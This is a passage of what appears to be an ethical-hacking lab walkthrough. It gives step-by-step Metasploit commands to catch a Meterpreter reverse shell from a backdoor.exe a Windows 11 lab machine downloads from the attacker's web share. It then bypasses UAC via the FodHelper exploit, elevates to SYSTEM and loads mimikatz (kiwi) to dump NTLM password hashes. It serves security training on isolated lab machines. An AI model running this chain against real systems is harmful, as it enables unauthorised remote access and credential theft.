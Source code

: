 	10. Start the Apache server by typing service apache2 start and press Enter.
	
	11. Type msfconsole in the terminal window and press Enter to launch Metasploit Framework.
	
	12. In Metasploit type use exploit/multi/handler and press Enter.
	13. Now type set payload windows/meterpreter/reverse_tcp and press Enter.
	
	14. Type set lhost 10.10.1.13 and press Enter to set lhost.
	15. Type set lport 444 and press Enter to set lport.
	16. Now type run in the Metasploit console and press Enter.
	
	17. Click Windows 11 to switch to the Windows 11 machine.
	18. Open any web browser (here, Mozilla Firefox). In the address bar place your mouse cursor, type http://10.10.1.13/share and press Enter. As soon as you press enter, it will display the shared folder contents, as shown in the screenshot.
	19. Click on backdoor.exe to download the file.
	
	20. Once you click on the backdoor.exe file, the Opening backdoor.exe pop-up appears click on Save File.
	
	21. Navigate to Downloads and double-click the Windows.exe file. The Open File - Security Warning window appears; click Run.
	
	22. Leave the Windows 11 machine running and click Parrot Security to switch to the Parrot Security machine.
	
	23. The Meterpreter session has successfully been opened, as shown in the screenshot.
	24. Type sysinfo and press Enter. Issuing this command displays target machine information such as computer name, OS, and domain.
	
	25. Type getuid and press Enter to display current user ID.
	
	26. Now, we shall try to bypass the user account control setting that is blocking you from gaining unrestricted access to the machine.
	27. Type background and press Enter to background the current session.
	
	In this task, we will bypass Windows UAC protection via the FodHelper Registry Key. It is present in Metasploit as a bypassuac_fodhelper exploit.
	28. In the terminal window, type use exploit/windows/local/bypassuac_fodhelper and press Enter.
	29. Now type set session 1 and press Enter.
	30. Type show options in the meterpreter console and press Enter.
	
	31. To set the LHOST option, type set LHOST 10.10.1.13 and press Enter.
	32. To set the TARGET option, type set TARGET 0 and press Enter (here, 0 indicates nothing, but the Exploit Target ID).
	33. Type exploit and press Enter to begin the exploit on Windows 11 machine.
	
	34. The BypassUAC exploit has successfully bypassed the UAC setting on the Windows 11 machine.
	35. Type getsystem -t 1 and press Enter to elevate previleges.
	
	36. Now type getuid and press Enter, The meterpreter session is now running with system previleges.
	
	37. Type load kiwi in the console and press Enter to load mimikatz.
	
	38. Type help kiwi and press Enter, to view all the kiwi commands.
	
	39. Now we will use some of these commands to load hashes.
	40. Type lsa_dump_sam and press Enter to load NTLM Hash of all users.
	